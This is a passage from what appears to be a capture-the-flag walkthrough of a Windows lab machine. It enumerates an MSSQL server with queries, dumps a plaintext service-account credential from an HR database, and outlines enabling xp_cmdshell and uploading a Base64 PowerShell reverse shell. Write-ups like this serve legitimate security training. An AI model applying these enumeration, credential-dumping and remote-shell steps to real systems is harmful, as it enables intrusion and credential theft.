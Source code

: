 The obvious next step is to enumerate the SQL database and attempt to find the credentials that were mentioned in the PDF file earlier.

`select name, database_id from sys.databases;`

```
name                                                                                                                               database_id   
----
master                                                                                                                                       1   

tempdb                                                                                                                                       2   

model                                                                                                                                        3   

msdb                                                                                                                                         4   

ScrambleHR                                                                                                                                   5   
```

The `ScrambleHR` database clearly stands out here. It would be a good idea to check this first. List the tables in that database:

`select table_name from ScrambleHR.information_schema.tables;`
```
Employees                                                                                                                          
UserImport                                                                                                                         
Timesheets   
```

The `UserImport` database seems most likely to contain credentials, so it should be checked first:

`select * from ScrambleHR.dbo.UserImport;`
```
LdapUser   LdapPwd   LdapDomain   RefreshInterval   IncludeGroups      
---
MiscSvc   ScrambledEggs9900   scrm.local   90   0
---
```

This database contains the credentials for `MiscSvc`.

**Gaining a shell as MiscSvc**

Using the SQL service, run the command `enable_xp_cmdshell` to enable the SQL shell to issue commands to the server.

Then upload a PowerShell reverse shell generated from RevShells. The best option here is the Base64 shell.
